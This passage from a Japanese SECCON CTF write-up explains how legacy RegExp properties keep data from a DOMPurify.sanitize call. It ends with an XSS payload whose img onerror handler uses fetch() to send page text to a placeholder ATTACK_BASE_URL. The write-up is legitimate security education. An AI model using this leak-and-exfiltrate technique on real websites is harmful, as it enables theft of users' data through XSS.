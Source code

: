 実はJavaScriptのRegExpにはおもしろい（？）振る舞いがあり、直前の正規表現のマッチ情報をRegExpのプロパティに保存するようになっています:

- [`RegExp.input`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/input)
- [`RegExp.lastMatch`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/lastMatch)
- [`RegExp.lastParen`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/lastParen)
- [`RegExp.leftContext`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/leftContext)
- [`RegExp.rightContext`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/rightContext)
- [`RegExp.$1`-`RegExp.$9`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/n)

`"".match(/^$/)`はこれらのプロパティを空文字列にするための処理でした。逆にこの処理がなかった場合、`replace`内でフラグ文字列がマッチするため`RegExp.input`等からフラグを盗むことが可能になります。

なお、`RegExp.input`には、例えば
```javascript
document.all["0"]["ownerDocument"]["defaultView"]["RegExp"]["input"]
```
でアクセスできます。

ところで、DOMPurifyが文字列をどのようにsanitizeしているのかの処理を確認すると、いくつかの箇所で正規表現が使われていることがわかります:

- 例: https://github.com/cure53/DOMPurify/blob/2.4.0/src/purify.js#L957

実際に実験すると:
```javascript
> DOMPurify.sanitize('x<script><SECCON{xxx}')
'x'
> RegExp.input
'<SECCON{xxx}'
> RegExp.rightContext
'ECCON{xxx}'
> document.all["0"]["ownerDocument"]["defaultView"]["RegExp"]["rightContext"]
'ECCON{xxx}'
```
のようになって、これ挙動は使えそうです。

#### Step 3: just a XSS puzzle game!

以上のことを踏まえた上で、パズルゲームの要領でがんばるとフラグが手に入ります。

フラグが手に入るURLの構成例:
```javascript
  const emoji = "0/ownerDocument/defaultView/RegExp/rightContext";
  const message = `{{emoji}} S{{emoji}}<p id="}<img src=0 onerror=fetch(\`${ATTACK_BASE_URL}/?text=\`+encodeURIComponent(document.all.message.textContent))>"></p><script><`;
  const url = `http://web:3000/result?${new URLSearchParams({
    emoji,
    message,
  })}`;
```


[^top-1]: 作問ミスで、多くの人に非想定で解かれてしまい想定難易度より易化 :cry:
[^skipinx-1]: qsに限らず、DoS対策の文脈で、リクエストが巨大だった場合に途中以降を無視したりリクエスト自体を拒否したりする仕組みを取り入れているライブラリやフレームワークはしばしばあります。
[^easylfi-1]: `man curl`にもURL globbingの説明が書いてあります。
[^denobox-1]: Denoでは`__proto__`が公開されていないため、`constructor.prototype`経由で汚染する必要があります。
[^denobox-2]: もしこの制限下でprototype pollutionだけでRCEに繋げられる方法を見つけたら是非教えてください。
[^spanote-1]: 実際には、botの実装に使われているpuppeteerではデフォルトオプションでbfcacheが無効にされているので、フラグを取得するためにはこのステップは不要です（[参考](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175)）。
[^noiseccon-1]: パーリンノイズについて詳しく知りたい方には[Unity Graphics Programming](https://github.com/IndieVisualLab/UnityGraphicsProgrammingSeries) vol.2 第5章がおすすめです。
[^noiseccon-2]: すみません、ここで解説が力尽きました。余裕があったら書き足します。